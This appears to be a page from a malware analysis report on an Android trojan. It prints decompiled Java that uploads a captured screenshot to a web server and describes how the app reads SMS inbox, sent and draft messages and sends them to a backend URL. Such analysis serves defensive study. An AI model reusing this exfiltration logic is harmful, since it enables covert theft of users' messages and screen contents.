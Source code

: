 \documentclass[10pt,titlepage]{article}
\begin{document}
\begin{lstlisting}[label=screenshotupload,caption=The function \textit{naqsl.ebxcb.exu.Cint.fddo()} sends the screenshot to a Web server.,frame=tb]
        sb5.append("Content-Disposition: form-data; name=\"serverID\"");
        sb5.append(str4);
        dataOutputStream.writeBytes(sb5.toString());
        dataOutputStream.writeBytes(str4);
        dataOutputStream.write(str2.getBytes());
        dataOutputStream.writeBytes(str4);
        StringBuilder sb6 = new StringBuilder();
        sb6.append(str5);
        sb6.append(str6);
        sb6.append(str5);
        sb6.append(str4);
        dataOutputStream.writeBytes(sb6.toString());
        StringBuilder sb7 = new StringBuilder();
        sb7.append(str5);
        sb7.append(str6);
        sb7.append(str4);
        dataOutputStream.writeBytes(sb7.toString());
        StringBuilder sb8 = new StringBuilder();
        sb8.append("Content-Disposition: form-data; name=\"");
        sb8.append(str3);
        sb8.append("\";filename=\"");
        sb8.append(str);
        sb8.append("\"");
        sb8.append(str4);
        dataOutputStream.writeBytes(sb8.toString());
        dataOutputStream.writeBytes(str4);
        dataOutputStream.write(bArr);
\end{lstlisting}

\newpage
\subsubsection{SMS STEALING} \label{smsstealing}
The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS} implements the database interaction to read SMS messages from. The function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.onCreate} defines what database tables to select for perform the queries (\textbf{sms/sent, sms/inbox, sms/draft}) and calls the function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo}.

The \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo} function performs the database retrieves a \textit{ContentResolver} and performs the query. It iterates through all entries and adds them using a hardcoded pattern to a string. This string will be returned to the \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.onCreate}  function. Here the function \textit{naqsl.ebxcb.exu.int.fddo(Context context, String str, String str2)} will be called in order to send the results to a Web server. The second argument is a hardcoded string "4" and the third argument are the SMS messages. Depending on the second argument the target url will be created (see Listing \ref{activitygetssmsfddo}). Next is to gather the \textbf{url} tag from \textit{SharedPreferences} (see chapter: \ref{datastructure}) and execute the \textit{android.os.AsyncTask.Cint\$fddo} task wich is transfer the data to the web backend using the (java.net.HttpURLConnection).
\end{document}
